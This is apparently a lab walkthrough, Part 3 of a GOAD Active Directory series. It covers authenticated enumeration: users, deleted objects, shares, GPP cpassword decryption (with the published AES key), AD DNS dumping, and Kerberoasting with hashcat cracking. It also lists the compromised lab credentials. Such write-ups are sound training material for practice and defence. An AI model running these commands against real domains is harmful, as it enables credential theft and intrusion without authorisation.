GOAD Part 3 - Authenticated Enumeration
We have successfully crossed the most difficult threshold in any Active Directory engagement - the transition from an unauthenticated outsider to a recognized security principal.
We have successfully crossed the most difficult threshold in any Active Directory engagement which is the transition from an unauthenticated outsider to a recognized security principal. By securing our first set of valid credentials through our previous exploitation of Kerberos and SMB weaknesses, we have moved into the "Insider Threat" territory of the engagement. Part 3 is dedicated to Enumeration With a Valid User, a phase where our primary objective is to peel back the layers of the SevenKingdoms forest from an authenticated perspective.
Having a valid domain account essentially turns the lights on within the network, allowing us to perform queries that are strictly forbidden to anonymous actors. During this stage of the operation, we are shifting our focus from discovering "who" exists in the domain to understanding exactly "how" the domain is built and governed.
Enumerating Domain Users
We have secured our initial foothold, and while our previous reconnaissance gave us a skeleton list of usernames, we must now leverage our authenticated session to flesh out the entire directory structure. It is essential to understand that this massive intake of information is possible because of a fundamental and often surprising built-in design philosophy of Active Directory that every beginner must master, by default, the Authenticated Users group has "Read" access to almost the entire directory.
Enumerating Users with NetExec
We utilize NetExec as our primary driver for this phase because its LDAP module is highly efficient at pulling comprehensive user lists while maintaining the authenticated context of our compromised account.
poetry run netexec smb winterfell.north.sevenkingdoms.local -u 'brandon.stark' -p 'iseedeadpeople' --users

The results of our NetExec SMB enumeration provide a perfect illustration of why even a simple directory dump is so critical to our methodology. We immediately gravitate toward the Description column because it represents a "Low-Hanging Fruit" scenario where administrative shortcuts lead directly to catastrophic security failures.
In the screenshot, we have uncovered a definitive "Critical" finding within the metadata for samwell.tarly. The description field explicitly states Password : Heartsbane.
Enumerating Users with Impacket-GetADUsers
While NetExec provides us with a high-level overview in an easily readable format, we frequently turn to impacket-GetADUsers when we need a more surgical, attribute-focused extraction of the user database.
impacketGetADUsers.py -all north.sevenkingdoms.local/brandon.stark:iseedeadpeople

Enumerating Users with ldapsearch
We have established the foundational state where our authenticated identity, no matter how limited its role, allows us to systematically mine the Active Directory database.
ldapsearch -H ldap://winterfell.north.sevenkingdoms.local -D 'brandon.stark@north.sevenkingdoms.local' -w 'iseedeadpeople' -b 'DC=north,DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))" | grep 'distinguishedName:'

ldapsearch -H ldap://winterfell.north.sevenkingdoms.local -D 'brandon.stark@north.sevenkingdoms.local' -w 'iseedeadpeople' -b 'DC=north,DC=sevenkingdoms,DC=local' "*" | grep 'userPrincipalName:'
ldapsearch -H ldap://winterfell.north.sevenkingdoms.local -D 'brandon.stark@north.sevenkingdoms.local' -w 'iseedeadpeople' -b 'DC=north,DC=sevenkingdoms,DC=local' "*" | grep 'dn:'

Tombstones Users Enumeration
We are now shifting our attention to a fascinating area of Active Directory forensics that we treat as a "digital archaeology" phase of our engagement.
ldapsearch -H ldap://winterfell.north.sevenkingdoms.local -D 'brandon.stark' -w 'iseedeadpeople' -b 'DC=north,DC=sevenkingdoms,DC=local' -E '1.2.840.113556.1.4.417' '(&(isDeleted=TRUE)(!(isRecycled=TRUE)))'

Enumerating Shares
We move forward from our successful identity mapping to one of the most operationally rewarding phases of our engagement, Authenticated Share Enumeration. Now that we hold a valid set of domain credentials, we have significantly higher visibility into the network's storage architecture.
Enumerating shares with Netexec
We utilize NetExec as our primary broad-scale scanner for this task, utilizing the --shares flag to systematically sweep the Domain Controllers and workstations.
poetry run netexec smb domains.txt -u 'jon.snow' -p 'iknownothing' --shares

We can use spidering capabilities to filter through the immense volume of data:
poetry run netexec smb winterfell.north.sevenkingdoms.local -u 'jon.snow' -p 'iknownothing' --spider 'IPC$' --pattern .ps1
poetry run netexec smb winterfell.north.sevenkingdoms.local -u 'jon.snow' -p 'iknownothing' --spider 'NETLOGON' --pattern .ps1
poetry run netexec smb winterfell.north.sevenkingdoms.local -u 'jon.snow' -p 'iknownothing' --spider 'SYSVOL' --pattern .ps1
GPP - Group Policy Preferences
We now focus on one of the most historically significant yet persistent vulnerabilities within Active Directory environments, the Group Policy Preferences (GPP) cpassword flaw.
The key that unlocks every GPP password created before MS14-025 is:
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8 f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
poetry run netexec smb winterfell.north.sevenkingdoms.local -u 'brandon.stark' -p 'iseedeadpeople' -M gpp_password

Active Directory Integrated DNS Enumeration
We shift our operational focus now from the exploitation of individual accounts and files to the macro-level mapping of the network infrastructure itself.
adidnsdump -u 'north.sevenkingdoms.local\\jon.snow' -p 'iknownothing' winterfell.north.sevenkingdoms.local

Kerberoasting Attack
We move now to one of the most effective and widely utilized escalation techniques in an Active Directory environment, Authenticated Kerberoasting.
Enumerating Kerberoasting with NetExec
poetry run netexec ldap 'winterfell.north.sevenkingdoms.local' -u 'brandon.stark' -p 'iseedeadpeople' -d 'north.sevenkingdoms.local' --kerberoasting KERBEROASTING

Enumerating Kerberoasting with Impacket-GetUserSPNs
impacket-GetUserSPNs -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local/brandon.stark:iseedeadpeople' -request -outputfile kerberoasting.txt

hashcat -m 13100 -a 0 KERBEROASTING /usr/share/wordlists/rockyou.txt.gz -O

Valid Compromised Users
- Domain: north.sevenkingdoms.local (User Description)
User: samwell
Pass: Heartsbane - Domain: north.sevenkingdoms.local (ASREP-Roasting)
User: brandon.stark
Pass: iseedeadpeople - Domain: north.sevenkingdoms.local (Password Spray)
User: hodor
Pass: hodor - Domain: north.sevenkingdoms.local (Kerberoasting)
User: jon.snow
Pass: iknownothing
BloodHound
BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory or Azure environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify.